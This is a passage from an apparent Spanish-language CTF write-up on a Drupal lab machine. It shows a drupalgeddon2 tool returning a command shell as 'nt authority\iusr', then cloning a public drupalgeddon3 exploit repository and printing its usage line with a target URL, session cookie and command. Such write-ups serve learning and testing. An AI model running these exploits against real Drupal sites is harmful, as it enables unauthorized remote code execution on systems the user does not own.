 La herramienta te automatiza el proceso para ganar acceso como el usuario `nt authority\iusr`

```bash
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> ipconfig
Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.9
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{56FEC108-3F71-4327-BF45-2B4EE355CD0F}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

Como tercera alternativa, tenemos el `drupalgeddon3`, del repositorio de:

* [https://github.com/oways/SA-CORE-2018-004](https://github.com/oways/SA-CORE-2018-004)

Nos clonamos el respositorio y tenemos un script hecho el `python3`.

```bash
❯ git clone https://github.com/oways/SA-CORE-2018-004
Clonando en 'SA-CORE-2018-004'...
remote: Enumerating objects: 15, done.
remote: Total 15 (delta 0), reused 0 (delta 0), pack-reused 15
Recibiendo objetos: 100% (15/15), 106.84 KiB | 475.00 KiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
❯ cd SA-CORE-2018-004
❯ ls
 drupalgeddon3.py   example.png   README.md
```

```bash
❯ python3 drupalgeddon3.py

[Usage]
python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]

[Example]
python drupalgeddon3.py http://target/drupal/ "SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0" 6 "uname -a"
```
